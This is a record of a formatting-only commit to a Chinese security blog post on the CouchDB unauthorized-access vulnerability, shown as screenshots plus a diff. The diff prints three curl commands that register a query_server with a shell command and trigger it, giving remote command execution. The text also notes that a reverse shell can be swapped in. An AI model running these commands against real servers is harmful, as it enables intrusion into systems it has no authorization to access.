

Before and after one commit to FiveAourThe/FiveAourThe.github.io, a Jekyll site: the page built from _posts/2019-10-10-CouchDB 未授权访问漏洞.md, in a window 1280 px wide and 900 px high, scrolled down 2392 px. Shown: the whole window, without its empty margins (233-1159 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2019-10-10-CouchDB 未授权访问漏洞.md
+++ b/_posts/2019-10-10-CouchDB 未授权访问漏洞.md
@@ -27,7 +27,7 @@ tags:
 
 ![图片](../../../../img/couchdb_unauth_2.png)
 
-访问[http://ip:5984/_config](http://192.168.18.129:5984/_config)，可以通过该页面中的关键字来判断该漏洞是否存在：
+访问http://ip:5984/_config，可以通过该页面中的关键字来判断该漏洞是否存在：
 
 ![图片](../../../../img/couchdb_unauth_3.png)
 
@@ -45,17 +45,17 @@ replicator_manager
 ## 执行系统命令
 作为攻击者就一定要把漏洞充分利用，可以通过CouchDB 未授权访问漏洞来执行任意系统命令，具体代码如下，分为三步：
 
-```
+
 1、新增query_server配置，写入要执行的命令；
-curl -X PUT 'http://username:password@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
+`curl -X PUT 'http://username:password@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'`
 
 2、新建一个临时库和临时表，插入一条记录；
-curl -X PUT 'http://username:password@your-ip:5984/vultest'
-curl -X PUT 'http://username:password@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
+`curl -X PUT 'http://username:password@your-ip:5984/vultest'`
+`curl -X PUT 'http://username:password@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'`
 
 3、调用query_server处理数据
-curl -X POST 'http://username:password@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
-```
+`curl -X POST 'http://username:password@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'`
+
 我执行的命令是Ping dnslog平台，DNSlog平台也成功收到了请求，想要反弹shell也是可以的，修改第一步中的命令为bash 反弹shell就可以：
 
 ![图片](../../../../img/couchdb_unauth_5.png)
````
